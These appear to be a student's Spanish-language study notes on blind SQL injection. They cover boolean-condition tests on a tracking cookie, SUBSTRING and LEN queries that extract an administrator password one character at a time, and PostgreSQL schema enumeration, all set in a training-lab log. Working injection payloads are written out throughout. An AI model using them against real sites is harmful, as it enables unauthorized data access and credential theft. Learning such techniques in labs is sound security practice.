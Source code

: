 #Blind SQL Injection
La inyección ciega de SQL ocurre cuando una aplicación es vulnerable a la inyección de SQL
- Sus respuestas HTTP no contienen los resultados de la consulta SQL relevante ni los detalles de ningún error de la base de datos
- Muchas técnicas, como los ataques UNION, no son efectivas con las vulnerabilidades de inyección SQL ciega ( Blind SQL). **Esto se debe a que dependen de poder ver los resultados de la consulta inyectada dentro de las respuestas de la aplicación.**
- Todavía es posible explotar la inyección SQL ciega para acceder a datos no autorizados, pero se deben utilizar técnicas diferentes.

## Explotando Inyecciones ciegas con activando respuestas condicionales Exploiting blind SQL injection by triggering conditional responses

Considere una aplicación que utiliza cookies de seguimiento para recopilar análisis sobre el uso. Las solicitudes a la aplicación incluyen un encabezado de cookie como este:
```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
Cuando se procesa una solicitud que contiene una cookie ```TrackingId```, la aplicación utiliza una consulta SQL para determinar si se trata de un usuario conocido:
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

Esta consulta es vulnerable a la inyección SQL, pero **los resultados de la consulta no se devuelven al usuario. Sin embargo, la aplicación se comporta de manera diferente dependiendo de si la consulta devuelve algún dato. Si envía un ```TrackingId``` reconocido, la consulta devuelve datos y recibe un mensaje de "Bienvenido" en la respuesta.** Este comportamiento es suficiente para poder explotar la vulnerabilidad de inyección SQL ciega. Puede recuperar información activando diferentes respuestas de forma condicional, dependiendo de la condición inyectada. Para comprender cómo funciona este exploit, supongamos que se envían dos solicitudes que contienen a su vez los siguientes valores de cookie  ```TrackingId```:
```
…xyz' AND '1'='1 -El primero de estos valores hace que la consulta devuelva resultados, porque la condición AND '1'='1 inyectada es verdadera. Como resultado, se muestra el mensaje "Bienvenido de nuevo".
…xyz' AND '1'='2 -El segundo valor hace que la consulta no devuelva ningún resultado porque la condición inyectada es falsa. El mensaje "Bienvenido de nuevo" no se muestra.
```
Esto nos permite determinar la respuesta a cualquier condición inyectada y extraer datos pieza por pieza.

Por ejemplo, supongamos que hay una tabla llamada ```Users``` con las columnas ```Username ``` y ```Passwords ```, y un usuario llamado ``` Administrator```. Puede determinar la contraseña de este usuario enviando una serie de entradas para probar la contraseña, un carácter a la vez. Para hacer esto, comience con la siguiente entrada:
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm

xyz es el trackingID, esto funciona si la contraseña esta almacenada en claro y no el HASH
```

Esto devuelve el mensaje "Bienvenido nuevamente", que indica que la condición inyectada es verdadera y, por lo tanto, el primer carácter de la contraseña es mayor que m.
A continuación, enviamos la siguiente entrada:

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```
Esto no devuelve el mensaje "Bienvenido", lo que indica que la condición inyectada es falsa y, por lo tanto, el primer carácter de la contraseña no es mayor que t.

Finalmente, enviamos la siguiente entrada, que devuelve el mensaje "Bienvenido", confirmando así que el primer carácter de la contraseña es s:
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

Podemos continuar este proceso para determinar sistemáticamente la contraseña completa para el usuario Administrador.
```
SUBSTRING(string, start, length)

Es importante conocer como funciona el subtring - SUBSTRING(string, start, length)
string - la cadena de texto
start - El inicio de la cadena
length - el tamaño de la cadena 

¿Como se puede averigurar el tamaño de la cadena?
EN MS SQL SELECT LEN (string)

Ejemplificando la info anterior

xyz' AND LEN(SELECT Password FROM Users WHERE Username = 'Administrator')) > 10
xyz' AND LEN(SELECT Password FROM Users WHERE Username = 'Administrator')) < 20
xyz' AND LEN(SELECT Password FROM Users WHERE Username = 'Administrator')) = 15

```
### Laboratio  Blind SQL

Esta práctica de laboratorio contiene una vulnerabilidad de inyección SQL ciega. La aplicación utiliza una cookie de seguimiento para análisis y realiza una consulta SQL que contiene el valor de la cookie enviada. Los resultados de la consulta SQL no se devuelven y no se muestran mensajes de error. Pero la aplicación incluye un mensaje de "Bienvenido" en la página si la consulta devuelve alguna fila. La base de datos contiene una tabla diferente llamada usuarios, con columnas llamadas nombre de usuario y contraseña. Debe aprovechar la vulnerabilidad de inyección SQL ciega para descubrir la contraseña del usuario administrador. Para resolver la práctica de laboratorio, inicie sesión como usuario administrador.

```
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
Voy a intentar con BURP SUITE

00) LO INTENTE EN EL GET Y NO VI NADA SIGNIFICATIVO
00) LO INTENTE EN LA COOKIE Y NADA -- sI ES EN LA COOKIE EL WELCOMEBACK DESAPARECE

0) LA INYECCION LA INTENTARE DIRECTAMENTE EN LA COOKIE
- Es en la cookie
- El Mensaje de Welcome desaparece

Cookie: TrackingId=DyF31dkSZiKVIINI'+AND+'1'='2';

1) VERIFICAR COMO SE COMPORTA CON ALGO VERDADERO

Cookie: TrackingId=DyF31dkSZiKVIINI'+AND+'1'='1'; 
El mensaje de WELCOME se manttiene
2) VERIFICAR COMO SE COMPORTA CON ALGO VERDADERO
El mensaje de WELCOME desaparece

Cookie: TrackingId=DyF31dkSZiKVIINI'+AND+'1'='2';

3) Dice que es una tabla llamada users pero diferente es decir como un user97238s

3.0)
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a

Cookie: TrackingId=DyF31dkSZiKVIINI'+AND+'1'='2;


¿Cómo saber el nombre de la tabla? - EN el UNION tenemos esa info, pero es la unica forma?
¿Cómo saber la base de datos? - Suena cañon, es listar el esquema paso a paso
¿Hay alguna forma automatizada? -

Consulta base: xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
Consulta base: xyz' AND LEN(SELECT Password FROM users WHERE Username = 'Administrator')) = 15

3.1) Identificador Manejador, no es necesario todo el nombre
3.2) Aventarme directamente a la tabla

SELECT table_name,NULL FROM information_schema.tables WHERE table_schema='public' AND table_type='BASE TABLE'-- // ESTE FILTRA Y PONE SOLO LAS TABLAS CREADAS POR EL USUARIO

SELECT table_name FROM information_schema.tables WHERE table_schema='public' AND table_type='BASE TABLE'--

CustomerName LIKE 'a%'; // COmando para buscar coincidencias

LEN (SELECT table_name FROM information_schema.tables WHERE table_schema='public' AND table_type='BASE TABLE' AND table_name LIKE 'users%') > 0 // NECESITAMOS PRIMERO EL LEN, AQUI CONFIRMAMOS QUE ES POSGRES Y QUE SI EXISTE UNA TABLA 
SELECT table_name FROM information_schema.tables WHERE table_schema='public' AND table_type='BASE TABLE' AND table_name LIKE 'users%'--  CONSULTA POSTGRESQL PARA CONOCER SI EXISTE UNA TABLA QUE INICIE CON STARTS

RESULTADO: users_xrkoxi

PASO 5 IDENTIFICAR LAS COLUMNAS

SELECT column_name,data_type FROM information_schema.columns WHERE table_name = 'users_xrkoxi'-- // OBTIENE LAS COLUMNAS DE LA TABLA


```

# Hola
## HOLA
### HOLA

